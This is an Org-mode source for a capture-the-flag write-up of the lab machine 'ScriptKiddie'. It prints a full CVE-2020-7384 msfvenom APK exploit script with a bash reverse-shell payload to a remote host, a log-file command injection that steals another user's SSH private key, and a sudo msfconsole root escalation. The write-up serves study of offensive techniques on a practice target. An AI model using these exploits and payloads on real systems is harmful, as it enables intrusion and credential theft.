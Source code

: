 #+TITLE: Script Kiddie
#+AUTHOR: AsmArtisan256

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: scriptkiddie

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

* Enumeration

As usual, we start with an Nmap scan:

#+BEGIN_SRC
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-06 20:32 WET
$ nmap -sC -sV -p1-65535 -oN nmapresult.txt 10.129.74.36
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-06 20:32 WET
Nmap scan report for 10.129.74.36
Host is up (0.046s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.20 seconds
#+END_SRC

We can clearly see that there is an HTTP server running in port =5000=.
Going to the website (=10.129.75.138:5000=), we see this page:

[[./images/img1.jpg]]

Messing around with the website, we can scan the top 100 ports of a specific IP
address, we can also generate =msfvenom= binaries and we can search exploits.

There are some timesinks here, one of them being command injection checking on
all three available fields. I did waste many hours because of it.

But let us not forget about the commands that are running server-side.
From the website, we know that the server is running =nmap=, =msfvenom= and
=searchsploit=.

* User

Using the =searchsploit= utility from the website, we can search =nmap= or
=msfvenom= exploits. =Nmap= has a couple exploits, but =msfvenom= has one that
is very recent, January 2021: https://www.exploit-db.com/exploits/49491.

It seems that we can use an Android APK template to make =msfvenom= execute
arbitrary code when it is generating the binary.

We’ll use the above python script, but in our case, we want a payload for a
reverse shell: =/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.210/1337 0>&1"=.
We just replace it in the script and run it. But it will error out, because
there seems to be a problem when using =keytool= and having =+= characters in
=dname=.
Script customization is needed. In this case, after getting the result base64,
we’ll convert the string to an hex string and we also change the dname variable
so it converts from hex string to base64 and then decode the base64 and then
execute the resulting string.

This is the script after the changes:

#+BEGIN_SRC python :eval no
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
#payload = 'echo "Code execution as $(id)" > /tmp/win'
payload = '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.210/1337 0>&1"'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
payload_hex = "".join("{:02x}".format(ord(c)) for c in payload_b64)

#dname = f"CN='|echo {payload_b64} | base64 -d | sh #"
dname = f"CN='|echo {payload_hex} | xxd -r -p | base64 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")
#+END_SRC

All we have to do now is run the script and upload the result APK to the
website:

[[./images/img2.jpg]]

When we get the reverse shell, we can see that there is a =id_rsa= file in the
=.ssh= directory, we get the contents of the file and we use it to ssh into the
user =kid=:

[[./images/img3.jpg]]

In =kid= home directory, we can get the =user.txt= flag.

* Root

There are some rabbit holes we can get into. We can rapidly see that there is an
odd file (=/home/kid/logs/hackers=).
The file is referenced in the websites’ =app.py= file:

#+BEGIN_SRC python
def searchsploit(text, srcip):
    if regex_alphanum.match(text):
        result = subprocess.check_output(['searchsploit', '--color', text])
        return render_template('index.html', searchsploit=result.decode('UTF-8', 'ignore'))
    else:
        with open('/home/kid/logs/hackers', 'a') as f:
            f.write(f'[{datetime.datetime.now()}] {srcip}\n')
        return render_template('index.html', sserror="stop hacking me - well hack you back")
#+END_SRC

So, if we use special characters in the prompt, it will write current date and
our IP to =/home/kid/logs/hackers=. For the sake of brevity, we are
going to upload =pspy64= to the machine and run it. Now, in the website, if we
use the =searchsploit= textfield with a special character (e.g.: =test;=), we
can clearly see what commands are executed on the server:

[[./images/img4.jpg]]

Everytime the above happens, it seems =/home/pwn/scanlosers.sh= is executed.
We can peek into that file:

#+BEGIN_SRC bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
#+END_SRC

This file gets =/home/kid/logs/hackers=, does a cut by space character, gets
everything from the third free onwards and executes nmap. After that, it cleans
the log file.
From here, we can inject commands into =/home/kid/logs/hackers= for user =pwn=
to execute! But we have to be smart about it. We can continue using =pspy64= to
check what is executed and to do some trial and error. My initial idea was to
get the =id_rsa= from user =pwn=. All I had to do was run this command:

#+begin_src
$ echo ";a; a; ;cat .ssh/id_rsa > test;" > logs/hackers
#+end_src

I did insert enough whitespaces because of =cut -d’ ‘ -f3-= part. Then the
command I wanted to execute (print =id_rsa= and redirect output to =test= file
and then redirect everything to =/home/kid/logs/hackers=).

[[./images/img5.jpg]]

We get the result and save a new =id_rsa= in our computer and =ssh= into =pwn=.

[[./images/img6.jpg]]

Something that should be done right away is check if =pwn= user can run some
commands as superuser!

#+begin_src
$ sudo -l

Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
#+end_src

It is possible to execute =msfconsole= as superuser. We can also run
normal bash commands through msfconsole. Therefore, we just execute =bash= and
we get a shell session with root permissions.

[[./images/img7.jpg]]

Navigation to =root= home directory is required and then we have =root.txt= to
get the root flag.

* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/writeups.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">08-02-2021</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT
